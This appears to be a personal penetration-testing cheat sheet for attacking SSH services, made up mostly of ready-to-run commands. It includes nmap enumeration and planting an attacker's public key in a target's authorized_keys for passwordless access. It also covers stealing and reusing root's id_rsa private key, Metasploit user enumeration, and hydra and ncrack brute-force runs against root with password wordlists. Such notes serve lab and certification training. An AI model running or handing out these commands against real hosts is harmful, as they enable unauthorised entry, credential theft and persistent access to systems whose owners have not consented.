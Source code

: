 # SSH

**Links**

https://recipeforroot.com/misconfigured-ssh-keys/
https://www.ssh.com/ssh/host-key
http://lerned.wikidot.com/ssh



**YouTube**

https://www.youtube.com/playlist?list=PLZOToVAK85MpAUfM-VXUREYjnedPyA_6B

https://www.youtube.com/watch?v=m9WtyQ907p0&list=PLZOToVAK85MqxEPGXA80NPMZEczZfA9ej&index=157



==the file has to have the right permissions: chmod 600==

**ssh -i "private rsa file"**
Can you login with a password? try name: name or name:password
grep -i PermitRootLogin /etc/ssh/sshd_config

`nmap {nmap_extra} -sV -p {port} --script="ssh2-enum-algos,ssh-hostkey,ssh-auth-methods"`
`nmap','-n','-sV','-Pn','-vv','-p',port,'--script=banner,ssh-auth-methods,sshv1,ssh2-enum-algos,vulners','-oA','/root/scripts/recon_enum/results/exam/ssh/%s_%s_ssh' % (ip_address,port),ip_address])`
`openssl','s_client','-connect','%s:%s' % (ip_address,port)],stderr=errfile)`
`nmap -sV --version-all -n -Pn -p 22 --script="default,freevulnsearch,ssh-run,ssh2-enum-algos,ssh-hostkey,ssh-auth-methods,ssh-publickey-acceptance" 10.11.1.44`



### SSH config on box - SSH w/Key File
`cat /etc/ssh/sshd_config`



## Generate SSH RSA key

`ssh-keygen -b 2048 -t rsa`

if you get access to a user directory ie; via FTP, you can create the .ssh dir,upload your public key and rename it to authorized_keys so that you can then ssh in as the user without providing a password
this is due to ssh configs and where they grab these keys from this is default behavior
`ssh-keygen -f writeup`
writeup = private key, writeup.pub = public key

`echo "public_key" > /[user]/.ssh/authorized_keys on target machine`
`chmod 600 public key`

**`chmod 600 writeup`**
`ssh -i writeup root@10.10.10.138`
connect with private key via ssh to target: `ssh noob@192.168.56.120 -i [key file]` like .ssh/id_rsa or just keik

One thing we know about .ssh directories in users home directories, is that they often contain an “id_rsa” SSH private key file (along with its .pub Public Key counterpart) when that particular user is configured for Public Key Authentication in regards to SSH connections. With that said, knowing these directories often contain “id_rsa” SSH private keys, let’s see if we can read it:
`cd /root/.ssh && cat /root/.ssh/id_rsa`
`cp /root/.ssh/id_rsa /home/lowpriv/.ssh`
`chmod o-rwx /home/lowpriv/.ssh/id_rsa`

`ssh -i /home/lowpriv/.ssh/id_rsa root@localhost`

Use this command to connect if you have a private key and it’s password as it takes both
keep in mind the public key will also have to be in the authorized_keys on the target.  
`ssh -i id_rsa takis@10.10.10.10`



## SSH via proxychains and Squid
/etc/proxychains.conf - in ProxyList section
http 192.168.100.164 3128

`proxychains ssh john@192.168.100.164`

**execute commands via ssh**
`proxychains ssh john@192.168.100.165 '/bin/bash'`

### Metasploit

msf > use auxiliary/scanner/ssh/ssh_enumusers
msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 192.168.31.149
RHOSTS => 192.168.31.149
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
USER_FILE => /usr/share/wordlists/metasploit/unix_users.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > run

## SSH bruteforce
`ncrack -p ssh -u root -P 500-worst-passwords.txt -T5 10.10.10.10`
`hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.13.234 ssh`
hydra -t 4 -L /usr/share/wordlists/cristi.txt -P /usr/share/wordlists/cristi-passwords.txt 192.168.13.236 ssh
`hydra -t 4 -L /usr/share/wordlists/cristi.txt -p some_passsword 192.168.13.236 ssh`
`hydra -t 4 -l root -P /usr/share/wordlists/cristi-passwords.txt 127.0.0.1 -s 50000 ssh`

/usr/share/wordlists/SecLists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt
hydra -C default_accounts.txt ftp://localhost

`hydra -L "{username_wordlist}" -P "{password_wordlist}" -e nsr -s {port}` 

python ./40136.py 192.168.31.149 -U /usr/share/wordlists/metasploit/unix_users.txt -e --trials 5 --bytes 10

### SSH Bad Keys

https://github.com/rapid7/ssh-badkeys